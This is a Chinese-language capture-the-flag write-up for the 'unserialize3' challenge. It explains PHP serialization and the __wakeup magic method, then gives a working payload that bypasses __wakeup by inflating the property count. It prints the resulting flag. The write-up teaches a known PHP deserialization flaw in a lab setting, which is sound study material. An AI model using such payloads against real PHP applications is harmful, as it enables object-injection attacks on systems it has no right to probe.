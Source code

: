 知识点：

1、serialize()函数：用于序列化对象或数组，并返回一个字符串。序列化对象后，可以很方便的将它传递给其他需要它的地方，且其类型和结构不会改变。

2、unserialize()函数：用于将通过serialize()函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

3、魔术方法：PHP 将所有以 __（两个下划线）开头的类方法保留为魔术方法。所以在定义类方法时，除了上述魔术方法，建议不要以 __ 为前缀。

4、serialize()和unserialize()函数对魔术方法的处理：serialize()函数会检查类中是否存在一个魔术方法__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作，此功能可以用于清理对象。
unserialize()函数会检查类中是否存在一个魔术方法\_\_wakeup()，如果存在，则会先调用 \_\_wakeup 方法，预先准备对象需要的资源。

5、\_\_wakeup()执行漏洞：一个字符串或对象被序列化后，如果其属性被修改，则不会执行 \_\_wakeup()函数，这也是一个绕过点。

对于unserialize3这个题，里面有__wakeup()函数：


 结合题目和题中代码，就是让我们运用，__wakeup()函数的漏洞拿flag的。

创建一个xctf类并对其进行序列化：

```php
<?php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
}
$c = new xctf();
print(serialize($c));
?>
```

得到结果：O:4:"xctf":1:{s:4:"flag";s:3:"111";}

大括号前面的1便是属性变量的个数，只需对其进行更改便可以绕过__wakeup()，使exit函数不被执行。

传参?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}，拿到flag：xctf{63a8055fd385db30f57d32b44225c42b}